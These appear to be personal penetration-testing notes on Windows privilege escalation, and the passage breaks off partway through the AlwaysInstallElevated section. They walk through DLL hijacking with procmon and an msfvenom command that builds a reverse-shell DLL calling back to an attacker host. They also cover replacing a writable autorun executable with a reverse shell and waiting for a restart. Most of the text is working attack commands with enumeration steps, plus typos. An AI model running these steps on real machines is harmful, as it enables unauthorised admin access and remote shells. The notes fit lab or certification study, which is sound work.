 #### DLL hijacking
check if ou can start and stop service
```
> .\accesschk.exe -uvqc USER_NAME SERVICE_NAME
```
confirm binary path/priveledges 
```
> sc qc SERVICE_NAME
```
**COPY FILE TO MACHINE WITH ADMIN PRIV TO USE PROCMON**
##### procmon
- run with admin priv
- stop capture/clear list
- ctrl+L to open filter list
- add process name filter to match exe found in scan
- unselect registry and network activity
- restart capture
- searching for "NAME NOT FOUND"
- generate reverse shell ass DLL with msfvenom
```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f dll - missing_dll.dll
```
place generated dll and restart service

# registry exploits
#### autorun
windows can be configured to autorun programs on startup
if you are able to write an autorun exe and are able to restart the machine, or wait for a restart, you may be able to escalate privileges

winpeas for applications
```
> .\winpeas.exe quiet applicationsinfo
```
check autorun with reg query
```
> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
then use accesschk on each exe to check permissions
```
> .\accesschk.exe /accepteula -wvu "C:\Path\to\exe"
```
overwirte program.exe file (make a backup) then restart system
```
> copy "C:\path\to\file.exe" C:\Temp
> copy /Y reverse_shell.exe "C:\path\to\file.exe"
```
setup listener/restart system
*NOTE: on windows 10 this may cause the shell to spawn with privilegdes based off **last logged in user**

#### AlwaysInstallElevated
MSI (microsoft installer files) normall run under permissions of user but windows allows elevated priviledges
